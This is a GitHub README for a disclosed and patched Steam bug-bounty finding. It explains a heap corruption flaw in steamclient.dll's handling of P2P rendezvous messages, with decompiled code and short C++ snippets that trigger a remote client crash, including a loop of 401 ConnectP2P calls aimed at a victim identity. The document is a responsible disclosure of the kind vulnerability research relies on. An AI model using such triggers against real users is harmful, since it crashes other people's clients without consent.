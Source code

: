 # CrashSteamUser
**PoC Code for Steam Bug Bounty, Allowing P2P Connections to Crash Clients, submitted to Valve's bug bounty program under "#1276762
Improper memory buffer size calculation causes heap corruption in steamclient.dll CMsgSteamNetworkingP2PRendezvous signal parse"**

*Valve Quickly Responded to, and Patched this bug within a month of initial reporting. Funds were awarded under their bug bounty program*

## Technical Background 

Valve provides native P2P networking capabilities within [Steam GameNetworkingSockets](https://github.com/ValveSoftware/GameNetworkingSockets), avaliable for use to game developers through the [Steamworks API](https://partner.steamgames.com/doc/sdk).

To begin a P2P session, GameNetworkingSockets generates a CMsgSteamNetworkingP2PRendezvous protobuf message in [SetRendezvousCommonFieldsAndSetSignals](https://github.com/ValveSoftware/GameNetworkingSockets/blob/d5f855967440eeb5b4d5798bebe179ef868ac6af/src/steamnetworkingsockets/clientlib/steamnetworkingsockets_p2p.cpp#LL1599C34-L1599C72). This message is then transmitted to the targeted client, who will then initiate a worker thread for a CClientJobConnectionInfo message, containing the Rendezvous found within a CMsgClientP2PConnectionInfo message.

## The Bug

The following disassembled representation of a function within steamclient.dll: 
```C
    nByteSize = CalculateByteSize(&P2PRendezvous);
    nSizeReturn = nByteSize;
    nSizeOfAllocedMemory = 8208;
    if ( nByteSize > 8192 )
    {
      nSizeOfAllocedMemory = 16400 - nByteSize; //nSizeOfAllocedMemory now becomes very small
    }
    allocedMemory = (*(int (__stdcall **)(int))(*g_pMemAllocSteam + 12))(nSizeOfAllocedMemory); // malloc
    v17 = *(_DWORD *)(ContainsappID + 24);
    *(_DWORD *)(allocedMemory + 4) = *(_DWORD *)(ContainsappID + 28);
    *(_DWORD *)allocedMemory = v17;
    *(_DWORD *)(allocedMemory + 8) = v30;
    *(_DWORD *)(allocedMemory + 12) = nSizeReturn;
    SerializeMessage(&P2PRendezvous, (_BYTE *)(allocedMemory + 16));
```

A improper calculation occurs in steamclient.dll. When a Rendezvous message is received, it is deseralized and placed within a CMsgClientP2PConnectionInfo protobuf. When calling into the signal parser, it is then seralized to an allocated memory buffer. 

The byte size of the total message is calculated and used to allocate a buffer of appropriate size. However, the value is checked to be greater than 8192 bytes,if it is found to be so, the new allocated memory size is set to 16400 - the total size. 

This causes any messages larger than 8192 to allocate a buffer of insuffecient size. ` (16400 - 16 /*hdr*/) - 8193 = 8191`, leading to heap corruption. 

In order to trigger this bug, reliable messages were appended in PoC code to fill the message size to greater than 8192 bytes.

```C++    
CMsgSteamNetworkingP2PRendezvous* pMsg = reinterpret_cast<CMsgSteamNetworkingP2PRendezvous*>(msg);
while (pMsg->ByteSize() < 8192)
{
    pMsg->add_reliable_messages();
}
 ```
 
Additionally, due to the nature of SetRendezvousCommonFieldsAndSendSignal automatically adding reliable messages that haven't been ack'd to the message (m_vecUnackedOutboundMessages), simply rapidly calling ISteamNetworkingSockets::ConnectP2P in rapid succession is enough to trigger the bug

The following code worked every attempt:

```C++
for (int i = 0; i < 401; i++)
{
	hConn[i] = Globals::g_pSteamNetworkingSockets->ConnectP2P(VictimNetworkingIdentity, i, 0, 0);
}
```



## Video Presentation
 [![Proof Of Concept video](https://img.youtube.com/vi/huNZtW7w9p8/0.jpg)](https://www.youtube.com/watch?v=huNZtW7w9p8)
